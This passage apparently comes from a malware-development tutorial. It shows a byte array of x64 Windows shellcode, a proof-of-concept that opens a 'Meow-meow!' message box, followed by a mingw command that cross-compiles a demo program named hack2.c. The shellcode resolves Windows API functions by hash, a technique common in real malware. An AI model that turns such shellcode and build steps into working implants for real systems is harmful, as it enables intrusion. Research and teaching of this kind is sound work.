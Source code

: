 As usual, `meow-meow` messagebox payload used here:     

```cpp
unsigned char payload[] = {
  0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,0x41,
  0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,0x8b,0x52,
  0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,0x0f,0xb7,0x4a,
  0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,
  0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,0x20,0x3e,
  0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,
  0x74,0x6f,0x48,0x01,0xd0,0x50,0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,
  0x01,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,
  0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,
  0xf1,0x3e,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,
  0x40,0x24,0x49,0x01,0xd0,0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,0x40,0x1c,
  0x49,0x01,0xd0,0x3e,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
  0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,
  0x58,0x41,0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,
  0xc1,0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0x1a,0x01,0x00,0x00,0x3e,0x4c,0x8d,
  0x85,0x25,0x01,0x00,0x00,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,0xd5,
  0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,
  0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,
  0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x4d,0x65,0x6f,0x77,0x2d,0x6d,0x65,0x6f,0x77,
  0x21,0x00,0x3d,0x5e,0x2e,0x2e,0x5e,0x3d,0x00
};
```

### demo 2

Let's go to see everything in action. Cross-compile it (in my `linux` machine):     

```bash
x86_64-w64-mingw32-g++ hack2.c -o hack2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![malware](/assets/images/156/2025-05-29_13-26_1.png){:class="img-responsive"}     
